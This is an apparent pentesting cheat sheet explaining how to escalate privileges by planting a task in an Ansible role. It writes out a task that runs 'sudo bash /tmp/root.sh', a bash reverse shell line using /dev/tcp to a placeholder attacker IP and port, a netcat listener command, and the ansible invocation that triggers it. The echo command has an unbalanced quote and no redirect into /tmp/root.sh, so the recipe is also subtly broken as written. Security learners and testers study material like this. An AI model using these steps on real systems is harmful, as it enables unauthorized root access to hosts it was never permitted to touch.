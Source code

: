 ```yaml
---
title: Ansible Playbook Pentesting
description: Ansible Playbooks are lists of tasks that automatically execute against hosts.
tags:
  - Privilege Escalation
refs:
date: 2022-11-22
draft: false
---
```


## Privilege Escalation with Task

First off, check the content of playbook in /opt/ansible/playbooks.  
For instance, a file named “httpd.yaml”.

```yaml
- name: Install and configure Apache
  ...
  roles:
    - role: geerlingguy.apache
  tasks:
    - name: configure firewall
      firewalld:
        ...
```

Next, check the content of configure files in /opt/ansible/roles/geerlingguy.apache/tasks. And add the exploitable file in this.  
For example, a file named “configure-RedHat.yml”.

```yaml
...
- name: Reverse Shell
  command: sudo bash /tmp/root.sh
```

Create a exploit for reverse shell.

```sh
echo '/bin/bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1
```

Then open a listener in local machine.

```sh
nc -lvnp <local-port>
```

At the end, execute “ansible”

```sh
ansible
# or 
sudo -u <some-user> ansible
```